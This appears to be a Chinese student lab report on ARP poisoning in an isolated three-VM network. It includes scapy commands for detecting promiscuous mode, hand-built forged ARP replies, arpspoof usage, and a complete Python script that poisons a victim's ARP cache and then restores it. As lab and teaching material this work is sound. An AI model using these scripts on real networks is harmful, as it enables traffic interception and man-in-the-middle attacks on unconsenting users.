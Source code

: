 # 网络监听

## 实验目的

- 了解ARP投毒过程
- 熟悉scapy的使用

## 实验要求

- 使用至少三台机器，连接在同一个内部网络中

#### 网络拓扑

![](img/网络拓扑.png)

#### 基本节点信息

| id             | IP Address        | MAC Address       |
| -------------- | ----------------- | ----------------- |
| Gateway-debain | 172.16.111.1/24   | 08:00:27:e2:83:12 |
| kali-attacker  | 172.16.111.109/24 | 08:00:27:33:11:c0 |
| kali-victim    | 172.16.111.121/24 | 08:00:27:a6:1f:86 |

## 实验过程

#### 安装scapy

在攻击者主机中安装scapy（已经提前装好）

![](img/attack-scapy.png)

#### 实验一：检测局域网中的异常中断

```shell
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![](img/victim-eth0.png)

```shell
# 在攻击者主机上开启 scapy
scapy
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.121")
```

![](img/attack-promiscping.png)

```shell
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 再次查看，多了promisc选项，开启了混杂模式
ip link show eth0
```

![](img/victim-promisc.png)

```shell
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.121")
```

![](img/attack-promiscing2.png)

对比两次结果，发现在受害者主机开启混杂模式后，攻击者主机就检测到了受害者混杂模式的开启

```shell
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

#### 实验二：手工单步“毒化”目标主机的ARP缓存

在攻击者主机上以scapy交互式终端完成“毒化”过程

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![](img/构造ARP请求.png)

```python
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![](img/获取网关mac地址.png)

```python
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.121
# ARP的源IP改为网关的IP地址
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.121", hwdst="08:00:27:33:11:c0")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

查看受害者主机的ARP缓存

![](img/victim-ARP.png)

发现网关的MAC地址已经被替换为攻击者主机的MAC地址，说明毒害受害者ARP缓存成功

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:e2:83:12", pdst="172.16.111.121", hwdst="08:00:27:a6:1f:86")
sendp(restorepkt1, count=100, inter=0.2)
## 伪装受害者给网关发送 ARP 响应
restorepkt2 = Ether()/ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:e2:83:12", psrc="172.16.111.121", hwsrc="08:00:27:a6:1f:86")
sendp(restorepkt2, count=100, inter=0.2)
```

查看受害者主机的ARP缓存，已经成功恢复

![](img/restore-arp.png)

#### 实验三：使用自动化工具完成ARP投毒劫持实验

在kali中有arpspoof工具用于完成ARP投毒劫持

```shell
sudo arpspoof -i eth0 -t 172.16.111.121<想要劫持的目标主机> 172.16.111.1<想要伪装成的主机ip>
```

![](img/tools-arp.png)

可以看到直接完成了ARP的投毒劫持实验，按Ctrl+C终止劫持，此攻击会自动完成恢复目标主机的ARP缓存过程。

![](img/restore.png)

#### 实验四：基于scapy编写ARP投毒劫持工具

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-
from scapy.all import ARP, Ether, get_if_hwaddr, sendp,srp
from scapy.layers.l2 import getmacbyip

def get_mac(target_ip):
	'''
	use getmacbyip function to get target Ip's MAC address
	'''
	target_mac = getmacbyip(target_ip)
	if target_mac is not None:
		return target_mac
	else:
		print("无法获取IP为：%s 主机的MAC地址，请检查目标IP是否存活"%target_ip)
		
def create_arp_target(src_ip,src_mac,target_ip,target_mac):
	'''
    生成ARP数据包，伪造网关欺骗目标计算机
    src_mac:本机的MAC地址，充当中间人
    target_mac:目标计算机的MAC
    src_ip:要伪装的IP，将发往网关的数据指向本机（中间人），形成ARP攻击
    target_ip:目标计算机的IP
    op=is-at,表示ARP响应
	'''
	pkt = Ether()/ARP(op=2,psrc=src_ip,hwsrc=src_mac,pdst=target_ip,hwdst=target_mac)
	return pkt
	
def create_arp_gateway(gateway_ip):

	pkt = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst=gateway_ip)
	return pkt
	
def main():
	src_ip = "172.16.111.109"
	interface="eth0"
	src_mac = get_if_hwaddr(interface)
	print('本机IP地址是：', src_ip)
	print('本机MAC地址是:',src_mac)
	target_ip="172.16.111.121"
	target_mac=get_mac(target_ip)
	print("目标计算机IP地址是：", target_ip)
	print("目标计算机MAC地址是：", target_mac)
	gateway_ip = "172.16.111.1"
	arpbroadcast = create_arp_gateway(gateway_ip)
	# 发送这个 ARP 广播请求
	recved = srp(arpbroadcast, timeout=2)
	# 网关 MAC 地址如下
	gateway_mac = recved[0][0][1].hwsrc
	print("网关MAC地址是：", gateway_mac)
	arpspoofed = create_arp_target(gateway_ip,src_mac,target_ip,src_mac)
	sendp(arpspoofed)
	choice = input("是否恢复受害者主机ARP缓存(y/n):")
	if choice == 'y':
		restorepkt1=create_arp_target(gateway_ip,gateway_mac,target_ip,target_mac)
		sendp(restorepkt1,count=10,inter=0.1)
		restorepkt2=create_arp_target(target_ip,target_mac,gateway_ip,gateway_mac)
		sendp(restorepkt2,count=10,inter=0.1)
		
	
if __name__=='__main__':
	main()
```

![](img/auto-arp.png)

![](img/auto-restore-arp.png)



## 参考资料

- [课本第四章实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [ARP欺骗工具arpspoof的用法](https://blog.werner.wiki/usage-of-arpspoof/)
- [Python scapy实现一个简易arp攻击脚本](https://www.jianshu.com/p/df5918069612)

